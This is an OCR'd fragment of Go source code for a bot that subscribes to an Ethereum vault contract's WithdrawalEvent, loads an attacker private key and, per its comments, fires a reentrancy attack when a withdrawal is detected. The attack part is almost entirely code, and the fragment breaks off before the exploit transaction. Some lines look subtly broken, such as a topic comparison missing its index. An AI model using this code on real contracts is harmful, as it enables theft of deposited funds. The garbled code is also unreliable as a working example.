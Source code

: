 ```Go
	}
	fmt.Println("Bot listening for WithdrawalEvent from", contractAddress.Hex())

	contractAbi, err := abi.JSON(strings.NewReader(vaultABI))
	if err!= nil {
		log.Fatalf("Failed to parse ABI: %v", err)
	}

	withdrawalEventSig := contractAbi.Events["WithdrawalEvent"].ID
	fmt.Println("Listening for event signature:", withdrawalEventSig.Hex())

	privateKey, err := crypto.HexToECDSA(attackerPrivateKeyHex)
	if err!= nil {
		log.Fatalf("Error parsing private key: %v", err)
	}
	botAddress := crypto.PubkeyToAddress(privateKey.PublicKey)
	fmt.Println("Bot address:", botAddress.Hex())

	chainID, err := client.NetworkID(context.Background())
	if err!= nil {
		log.Fatalf("Failed to get chain ID: %v", err)
	}

	for {
		select {
		case err := <-sub.Err():
			log.Printf("Subscription error: %v. Resubscribing...", err)
			// Implement robust resubscription logic here
			time.Sleep(5 * time.Second) // Wait before retrying
			// Re-establish subscription (simplified example)
			sub, err = client.SubscribeFilterLogs(subCtx, query, logs)
			if err!= nil {
				log.Fatalf("Failed to resubscribe: %v", err)
			}
			continue // Skip processing this loop iteration
		case vLog := <-logs:
			// Basic check for confirmation (optional, adjust as needed)
			// if vLog.Removed {
			//  fmt.Println("Log removed due to reorg:", vLog.TxHash.Hex())
			//  continue
			// }

			// Check if it's the WithdrawalEvent
			if len(vLog.Topics) > 0 && vLog.Topics == withdrawalEventSig {
				fmt.Printf("\n[%s] Detected WithdrawalEvent! Block: %d, Tx: %s\n",
					time.Now().Format(time.RFC3339), vLog.BlockNumber, vLog.TxHash.Hex())

				// Decode event data (optional, needed if attack depends on event params)
				var eventData struct {
					User   common.Address
					Amount *big.Int
				}
				// Note: Non-indexed fields are in Data, indexed are in Topics
				// Simplified: Assuming we just need to know the event occurred to trigger reentrancy
				// err := contractAbi.UnpackIntoInterface(&eventData, "WithdrawalEvent", vLog.Data)
				// if err!= nil {
				//  log.Printf("Failed to unpack event data: %v", err)
				//  continue
				// }
				// fmt.Printf("  User: %s, Amount: %s\n", eventData.User.Hex(), eventData.Amount.String())

```